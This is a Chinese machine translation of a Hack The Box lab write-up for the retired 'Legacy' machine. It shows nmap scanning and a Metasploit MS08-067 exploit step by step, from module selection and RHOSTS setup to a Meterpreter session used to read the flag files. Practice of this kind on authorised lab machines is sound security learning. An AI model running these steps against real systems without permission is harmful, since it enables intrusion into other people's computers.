# 保持冷静，破解盒子-遗产

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

****注**** 。 **只允许报道退役的 HTB 机器。**


Legacy 是 Hack The Box 上发布的第二台机器，面向初学者，只需要一次攻击就可以获得 root 访问权限。

我们将使用以下工具将盒子典当在一个 [Kali Linux 盒子](https://www.kali.org/)上

*   [nmap](https://nmap.org/)
*   [zenmap](https://nmap.org/zenmap/)
*   [searchsploit](https://www.exploit-db.com/searchsploit)
*   [metasploit](https://www.metasploit.com/)

## **步骤 1 -扫描网络**

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获取尽可能多的信息总是更好的。

我将使用 Nmap(网络映射器)。Nmap 是一个用于网络发现和安全审计的免费开源工具。它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看看文档[这里](https://tools.kali.org/information-gathering/nmap)



我使用以下命令来获得我们正在扫描的内容的基本概念

```
nmap -sV -O -F --version-light 10.10.10.4
```

****-sV:**** 探测开放端口以确定服务/版本信息

****-O:**** 启用 OS 检测

****-F:**** 快速模式-扫描比默认扫描更少的端口

****-版本-光:**** 限于最有可能的探测器(强度 2)

****10.10.10。**4**:**遗留箱的 IP 地址**

您也可以使用 Zenmap，它是官方的 nmap 安全扫描器 GUI。这是一个多平台、免费和开源的应用程序，旨在使 Nmap 易于初学者使用，同时为有经验的 Nmap 用户提供高级功能。



我使用几乎相同的命令集来执行快速扫描加。唯一不同的是增加了一面旗帜——T4

```
nmap -sV -T4 -O -F --version-light 10.10.10.4
```

****-**-**:**:**执行速度更快

如果您发现结果有点太多，您可以移动到 ****端口/主机**** 选项卡，只获得开放的端口



我们可以看到有两个开放的端口:

****港口 139**** 。NetBIOS 会话服务

****端口 445**** 。Microsoft-DS(目录服务)SMB 文件共享

让我们做一些研究，看看我们能找到什么。

## **步骤 2 -了解 e** 可被利用的漏洞 MS08-067

仍然在 Zenmap 上，我们寻找任何已知的漏洞



我使用以下命令

```
nmap -p 445 --script vuln 10.10.10.4
```

****-** p **:**** 设置目的港

**445 **:**** 我们之前发现的开放港口

****-**-脚本漏洞 **:**** 检查特定的已知漏洞，一般只报告发现的结果

****10.10.10。**4**:**遗留箱的 IP 地址**

我们可以看到有一个漏洞， **smb-vuln-ms08-067** ，微软 Windows 系统容易受到远程代码执行的攻击。

这是 **MS08-067** 的 [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250) 。

让我们先了解一下微软的补丁是如何工作的，以及这种命名惯例的由来。

这是摘自 [rapid7 博客](https://blog.rapid7.com/2014/02/03/new-ms08-067/)

> 2003 年 11 月，微软对其补丁发布周期进行了标准化。通过在每个月的第二个星期二发布补丁，微软希望解决补丁发布不统一的问题。这项努力被称为“修补星期二”。从实施星期二补丁(2003 年 11 月)到 2008 年 12 月，微软总共发布了 10 个不是在星期二补丁发布的补丁，也称为“带外”补丁。微软发布的第 10 个带外补丁在 [MS08-067](http://technet.microsoft.com/en-us/security/bulletin/ms08-067) 安全公告中进行了概述



[https://blog.rapid7.com/2014/02/03/new-ms08-067/](https://blog.rapid7.com/2014/02/03/new-ms08-067/)

让我们也来看看 MS08-067 上的[微软安全公告](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)



[https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)

现在我们对这个漏洞有了更多的了解，让我们来尝试利用它吧！

## **步骤 3 -利用** MS08-067

我们使用 Searchsploit，一个用于漏洞数据库的命令行搜索工具，来检查是否有可供我们使用的 Metasploit 漏洞


我使用以下命令

```
searchsploit ms08-067
```

我启动 Metasploit 并寻找我应该用来启动漏洞利用的命令



我使用该命令来查找 ms08-067 可用的所有有效负载

```
search ms08_067
```

我们找到有效载荷来利用漏洞

```
exploit/windows/smb/ms08_067_netapi
```

ms08_067_netapi 是针对 Microsoft Windows 的最流行的远程攻击之一。这被认为是一个可靠的利用，并允许您获得访问系统，这是最高的 Windows 特权。



我使用以下命令来利用漏洞

```
use exploit/windows/smb/ms08_067_netapi
```

这将启动漏洞利用。我使用这个命令来显示可用的选项

```
show options
```

您可以看到远程主机(RHOSTS)尚未设置。我将设置远程主机，因为运行该漏洞需要这些信息



我使用下面的命令来设置远程主机使用 HTB 遗留机的 IP 地址

```
set RHOSTS 10.10.10.4
```

您还可以在运行漏洞利用之前进行检查，确认目标易受攻击


我使用下面的命令进行检查

```
check
```

我们现在可以运行这个漏洞了



答对了。我们有一个米普雷特会议。看看我们能找到什么:)

## **步骤 4 -使用 Meterpreter 查找 user.txt 标志**

从攻击性安全网站上，我们得到了 Meterpreter 的这个定义

> Meterpreter 是一个高级的、可动态扩展的有效负载，它使用*内存中的* DLL 注入阶段，并在运行时通过网络进行扩展。它通过 stager 套接字进行通信，并提供全面的客户端 Ruby API。它具有命令历史，标签完成，渠道，等等。

你可以在这里阅读更多关于 Meterpreter [的内容，在这里](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)了解这个工具[的更多命令](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)

让我们找到 user.txt 标志



我使用下面的命令来搜索文件

```
search -f user.txt
```

****-** f **:**** 文件名

****搜索**** 命令提供了一种在目标主机上定位特定文件的方法。该命令能够搜索整个系统或特定文件夹。

我们现在需要导航到

```
c:\Documents and Settings\john\Desktop\user.txt
```



要检查您的位置，您可以使用以下命令

```
pwd
```

我目前在

```
C:\WINDOWS\system32
```

我使用下面的命令两次移动到父目录

```
cd ..
```

当我在 **C:\** 级别时，我使用下面的命令列出所有的文件/文件夹

```
ls
```



然后，我移动到 user.txt 标志所在的文件夹。我使用 **ls** 来列出**桌面**文件夹下的所有文件

我们找到了 **user.txt** 文件！为了读取文件的内容，我使用了以下命令

```
cat user.txt
```

现在我们有了用户标志，让我们找到根标志！

## **步骤 5 -寻找 root.txt 标志**



我使用下面的命令来搜索文件

```
search -f root.txt
```

我们现在需要导航到

```
c:\Documents and Settings\Administrator\Desktop\root.txt
```



回到 **C:\** 导航到**管理员**文件夹，然后是**桌面**文件夹。我使用 **ls** 来列出**桌面**文件夹下的所有文件

我们找到了 **root.txt** 文件！

为了读取文件的内容，我使用了以下命令

```
cat root.txt
```

恭喜你。你找到了两面旗子！

* * *

请随时评论、提问或与朋友分享:)

你可以在这里看到更多我的文章

你可以在推特上关注我，也可以在 T2 的 LinkedIn 上关注我

还有别忘了# ****GetSecure**** ，#****be secure****&#****stay secure****！

* * *

**本系列其他文章**

*   [保持冷静，黑掉瘸子](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
*   保持冷静，黑掉盒子
*   [保持冷静，黑盒子——哔](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-beep/)

